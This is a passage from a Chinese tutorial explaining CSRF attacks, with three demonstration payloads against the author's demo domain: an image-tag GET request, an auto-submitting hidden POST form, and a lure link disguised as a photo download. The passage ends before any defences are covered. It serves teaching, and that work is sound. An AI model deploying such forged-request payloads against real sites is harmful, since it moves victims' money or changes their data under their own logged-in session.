 > [返回目录](#chapter-one)

CSRF 攻击（Cross-site request forgery）即跨站请求伪造。

是一种劫持受信任用户向服务器发送非预期请求的攻击方式，通常情况下，它是攻击者借助受害者的 Cookie 骗取服务器的信任，但是它并不能拿到 Cookie，也看不到 Cookie 的内容，它能做的就是给服务器发送请求，然后执行请求中所描述的命令，以此来改变服务器中的数据，也就是并不能窃取服务器中的数据。

CSRF 攻击就是黑客利用用户的登录状态，并通过第三方的站点来做一些坏事。

打开攻击者提供的页面后，攻击者有 3 种方式实施 CSRF 攻击：

* **方法一：自动发起 Get 请求**

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF 攻击演示</h1>
    <img src="https://jsliang.top/index.html?user=hacker&number=100">
  </body>
</html>
```

黑客将转账的请求接口隐藏在 `img` 标签内，欺骗浏览器这是一张图片资源。

当该页面被加载时，浏览器会自动发起 `img` 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 块就被转移到黑客的账户上去了。

* **方法二：自动发起 POST 请求**

```html

<!DOCTYPE html>
<html>
<body>
  <h1>黑客的站点：CSRF 攻击演示</h1>
  <form id='hacker-form' action="https://jsliang.top" method=POST>
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>
  <script>
    document.getElementById('hacker-form').submit();
  </script>
</body>
</html>
```

在页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。

当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。

因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。

* **方法三：引诱用户点击链接**

```html
<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg>
  </div>
<div>
  <a href="https://jsliang.top?user=hacker&number=100" taget="_blank">
    点击下载美女照片
  </a>
</div>
```
